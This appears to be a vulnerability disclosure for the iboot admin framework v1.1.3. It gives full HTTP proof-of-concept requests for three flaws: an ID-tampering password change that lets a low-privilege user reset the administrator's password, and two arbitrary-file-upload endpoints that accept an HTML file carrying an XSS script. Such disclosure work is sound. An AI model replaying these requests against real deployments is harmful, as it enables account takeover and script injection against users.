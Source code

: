 BUG_Author

Longlong Gong

# Project

Address: [iboot](https://gitee.com/iteaj/iboot/)

## 1、Logical loopholes

###  1.1、`/core/admin/pwd` Ordinary users changing administrator password

[Affected version]

v1.1.3



[Affected Component]

/core/admin/pwd



[Software]

https://gitee.com/iteaj/iboot/repository/archive/v1.1.3



[Description]

There is a logical vulnerability in the id parameter of the `/core/admin/pwd` interface in the iboot backend management framework v1.1.3, which allows for the modification of passwords for management or any other user through this interface, resulting in low privileged users logging in as administrators

POC

```
POST /core/admin/pwd HTTP/1.1
Host: 192.168.1.184:8080
Authorization: session
x-requested-with: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
Referer: http://192.168.1.184:8080/core/role
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_adedae9bc250561cc17e96dc1fb46079=1741931237,1741948074,1742043334; JSESSIONID=31B3E8CA0B98ED93CC1DD633AC20DF31
Connection: close
Content-Type: application/json
Content-Length: 52

{"password":"123456","surePassword":"123456","id":1}
```

![image-20250405165158782](assets/image-20250405165158782.png)

It can be seen that the demonstration user only has the permission to view. Here, by changing the ID of the password modification interface, the password for management can be directly modified

![image-20250405165309720](assets/image-20250405165309720.png)

Successfully logged into the administrator with the modified password

![image-20250405165347724](assets/image-20250405165347724.png)

## 2、File Upload

### 2.1、`/common/upload` Arbitrary File Upload

[Affected version]

v1.1.3



[Affected Component]

/common/upload



[Software]

https://gitee.com/iteaj/iboot/repository/archive/v1.1.3



[Description]

There is an arbitrary file upload vulnerability in the `/common/upload ` interface of the iboot backend management framework v1.1.3, which allows uploading files with arbitrary suffixes, such as HTML and XSS

POC

```
POST /common/upload HTTP/1.1
Host: localhost:8080
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: iframe
Referer: http://localhost:8080/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=979D2EA2CB07DA3F12DDF4DA381776A6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary0OBgRzAzprfZAVQw
Content-Length: 203

------WebKitFormBoundary0OBgRzAzprfZAVQw
Content-Disposition: form-data; name="file"; filename="1.html"
Content-Type: image/jpeg

<script>alert(1)</script>
------WebKitFormBoundary0OBgRzAzprfZAVQw--
```

We can see this upload interface for the code

![image-20250405172215611](assets/image-20250405172215611.png)

![image-20250405172238477](assets/image-20250405172238477.png)

The file suffixes here are directly concatenated without verification

![image-20250405172253503](assets/image-20250405172253503.png)

![image-20250405172316916](assets/image-20250405172316916.png)

Upload HTML XS and concatenate the path behind the host

http://192.168.1.184:8080/img/upload/common/cf8618b7-9ee5-4ffa-b6b9-f6f4c9720039.html

![image-20250405172158281](assets/image-20250405172158281.png)

### 2.2、`/common/upload` Arbitrary File Upload

[Affected version]

v1.1.3



[Affected Component]

/common/upload



[Software]

https://gitee.com/iteaj/iboot/repository/archive/v1.1.3



[Description]

There is an arbitrary file upload vulnerability in the `/common/upload/batch ` interface of the iboot backend management framework v1.1.3, which allows uploading files with arbitrary suffixes, such as HTML and XSS

POC

```
POST /common/upload/batch HTTP/1.1
Host: localhost:8080
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: iframe
Referer: http://localhost:8080/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=979D2EA2CB07DA3F12DDF4DA381776A6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary0OBgRzAzprfZAVQw
Content-Length: 203

------WebKitFormBoundary0OBgRzAzprfZAVQw
Content-Disposition: form-data; name="file"; filename="1.html"
Content-Type: image/jpeg

<script>alert(1)</script>
------WebKitFormBoundary0OBgRzAzprfZAVQw--
```

Use the interface above to send the package, obtain the path, and concatenate the paths to see that XSS is successful

![image-20250405172936729](assets/image-20250405172936729.png)

![image-20250405172955147](assets/image-20250405172955147.png)
